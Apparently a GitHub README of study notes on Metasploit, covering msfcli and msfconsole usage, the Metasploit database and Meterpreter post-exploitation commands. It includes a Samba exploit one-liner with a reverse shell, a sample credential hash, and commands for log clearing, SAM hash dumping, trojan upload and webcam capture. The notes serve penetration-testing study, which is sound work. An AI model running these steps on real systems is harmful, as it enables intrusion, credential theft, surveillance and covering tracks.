 # metasploit-unleashed  
### offensive security explanation of metasploit  
#### assuming you have all the requirements to get going 

### What is the msfcli?
The msfcli provides a powerful command line interface to the framework. This allows you to easily add Metasploit exploits into any scripts you may create.  
```
root@kali:~# msfconsole -x "use exploit/multi/samba/usermap_script;\
set RHOST 172.16.194.172;\
set PAYLOAD cmd/unix/reverse;\
set LHOST 172.16.194.163;\
run"
```
### running the cli
`msfcli -h`  
Usage: /usr/bin/msfcli  >option=value> [mode]  
*Note: when using msfcli, variables are assigned using the “equal to” operator = and that all options are case-sensitive.*  
 **for help** or your not sure what to do next append the letter ‘O‘.  
`msfcli exploit/multi/samba/usermap_script O` 

To display available payloads append the letter ‘P‘.
`msfcli exploit/multi/samba/usermap_script P`  

```
The only real drawback of msfcli is that it is not supported quite as well as msfconsole and it can only handle one shell at a time, making it rather impractical for client-side attacks. It also doesn’t support any of the advanced automation features of msfconsole.
```

## Msfconsole Commands
[https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/](msfconsole)  
too many to list all of them here

## Using Metasploit DB 
1. `service postgresql start`  
2. `msfdb init`  
3. `msfconsole`  
4. `msf > db_status`  
5. `msf > workspace`  -h  
6. `msf > workspace -a lab1`  adds new  
7. `msf help`  
8. `msf > db_import /root/file-to-scan/  
9. `msf > hosts`  
10. `msf > db_nmap -A ip-address-to-scan  
11. `msf > db_export -h`  help exporting data  
12. `msf > hosts -h`  
13. `msf > hosts -c address,os_flavor`  or append -S Linux  
14. `msf > use auxiliary/scanner/portscan/tcp`  
15. `msf auxiliary(tcp) > show options`  
16. `msf  auxiliary(tcp) > hosts -c address,os_flavor -S Linux -R`  
17. `msf  auxiliary(tcp) > hosts -R`   
18. `msf > services -h`  
19. `msf > services -c name,info 172.16.194.134`  append -S http  
20. `msf > services -s http -c port 172.16.194.134 -o /root/msfu/http.csv`  export to .CSV  
21. `msf > creds`  stores any credentials saved along the way.  
22. `msf > creds -a 172.16.194.134 -p 445 -u Administrator -P 7bf4f254b222bb24aad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::`  ex.
23. `msf > loot -h`  
24. `msf  exploit(usermap_script) > exploit`  how one would populate the db with some 'loot'  

## Meterpreter  is the shell you get back on a victims computer.  Its a live session.    
### basic commands  
1. `meterpreter > help`  
2. `meterpreter > background`  sends session to background and u back to msf cmd prompt  
```
msf exploit(ms08_067_netapi) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
```
3. `cat`  same as always.  
4. `cd` and `pwd`   navigate victims computer  
```
meterpreter > pwd
c:\
meterpreter > cd c:\windows
meterpreter > pwd
c:\windows
meterpreter >
```  
5. `clearev`  clears the Application, System and Security logs on a Window systems.  
6. `download`   downloads a file from the remote machine  
```
meterpreter > download c:\\boot.ini
[*] downloading: c:\boot.ini -> c:\boot.ini
[*] downloaded : c:\boot.ini -> c:\boot.ini/boot.ini
meterpreter >
```
7. `edit`  opens a file located on the target host. ex `meterpreter > edit edit.txt`  
8. `execute`  runs a command on the target  `meterpreter > execute -f cmd.exe -i -H`  
9. `getuid`  displays user that the meterpreter is using on host  
10. `hashdump`  post module will dump the contents of the SAM database `meterpreter > run post/windows/gather/hashdump`  
11. `idletime`  display the number of seconds that the user at the remote machine has been idle.  
12. `ipconfig` displays the network interfaces and addresses on the remote machine.  
13. `lpwd` and `lcd`  used to display and change the local working directory respectively  `lpwd` is where you are on your machine `lcd` is how you move around the file system  
14. `ls` lists all files in current dir on victim machine.  
15. `migrate` you can migrate to another process on the victim `meterpreter > run post/windows/manage/migrate`  
16. `ps` displays a list of running processes on the target.  
17.  `resource`  executes meterpreter instructions located inside a text file `resource readfile.txt`  
18. `search`  provides a way of finding files on victim computer. `search -f autoexec.bat`  
19. `shell`  will give you a standard shell on victim computer  
20. `upload`  make note of double-slashes `meterpreter > upload evil_trojan.exe c:\\windows\\system32`  
21. `webcam_list` display currently available web cams on vc  
22. `webcam_snap`  grabs a picture from a connected web cam `meterpreter > webcam_snap -i 1 -v false`  

### Python Extension  
`meterpreter > load python`  - `help`  
##### some python examples  
`meterpreter > python_execute "print 'Good morning! It\\'s 5am'"`  
You can also save to a variable, and print its content using the “-r” switch.  
```
meterpreter > python_execute "import os; cd = os.getcwd()" -r cd
[+] cd = C:\Users\loneferret\Downloads
meterpreter >
```
```
root@kali:~# cat findfiles.py 
import os
for root, dirs, files in os.walk("c://"):
    for file in files:
        if file.endswith(".txt") and file.startswith("readme"):
             print(os.path.join(root, file))
```
`meterpreter > python_import -f /root/findfiles.py`  





 
